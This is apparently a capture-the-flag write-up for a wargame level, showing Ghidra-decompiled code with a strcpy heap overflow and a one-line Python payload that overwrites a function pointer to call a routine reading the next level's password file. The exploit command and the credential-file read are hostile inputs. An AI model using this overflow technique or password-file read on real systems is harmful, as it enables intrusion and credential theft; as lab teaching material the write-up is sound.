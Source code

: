 get the binary on host
* scp -P 4242 level6@192.168.56.107:./level6 ./binary/level6

decompile using ghidras
```c
            void main(undefined4 param_1,int param_2)
            {
                undefined4 uVar1;
                code **ppcVar2;
                
                uVar1 = malloc(64);
                ppcVar2 = (code **)malloc(4);
                *ppcVar2 = m;
                strcpy(uVar1,*(undefined4 *)(param_2 + 4));
                (**ppcVar2)();
                return;
            }
            void m()
            {
                put("Nope");
            }
/*08048454*/void n(void)
            {
                 system("/bin/cat /home/user/level7/.pass");
                return;
            }
```
Like before buffer overlof to jump to other function:\
`./level6 $(python -c 'print "a" * 72 + "\x54\x84\x04\x08"')` 